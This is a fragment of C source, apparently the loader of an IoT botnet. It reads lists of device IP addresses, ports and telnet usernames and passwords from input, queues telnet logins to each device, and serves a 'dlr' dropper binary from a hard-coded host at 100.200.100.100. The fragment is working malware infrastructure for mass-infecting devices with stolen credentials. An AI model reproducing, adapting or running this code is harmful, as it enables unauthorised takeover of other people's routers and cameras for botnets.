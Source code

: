```cpp
    printf("Failed to load bins/dlr.* as dropper\n");
    return 1;
  }

  if ((srv = server_create(sysconf(_SC_NPROCESSORS_ONLN), addrs_len, addrs,
                           1024 * 64, "100.200.100.100", 80,
                           "100.200.100.100")) == NULL) {
    printf("Failed to initialize server. Aborting\n");
    return 1;
  }

  pthread_create(&stats_thrd, NULL, stats_thread, NULL);

  while (TRUE) {
    char strbuf[1024];
    if (fgets(strbuf, sizeof(strbuf), stdin) == NULL) break;

    util_trim(strbuf);

    if (strlen(strbuf) == 0) {
      usleep(10000);
      continue;
    }

    memset(&info, 0, sizeof(struct telnet_info));
    if (telnet_info_parse(strbuf, &info) == NULL)
      printf(
          "Failed to parse telnet info: \"%s\" Format -> ip:port user:pass "
          "arch\n",
          strbuf);
    else {
      if (srv == NULL) printf("srv == NULL 2\n");

      server_queue_telnet(srv, &info);
      if (total++ % 1000 == 0) sleep(1);
    }

    ATOMIC_INC(&srv->total_input);
  }

  printf("Hit end of input.\n");

  while (ATOMIC_GET(&srv->curr_open) > 0) sleep(1);

  return 0;
}

static void *stats_thread(void *arg) {
  uint32_t seconds = 0;

  while (TRUE) {
    fflush(stdout);
    sleep(1);
  }
}

```
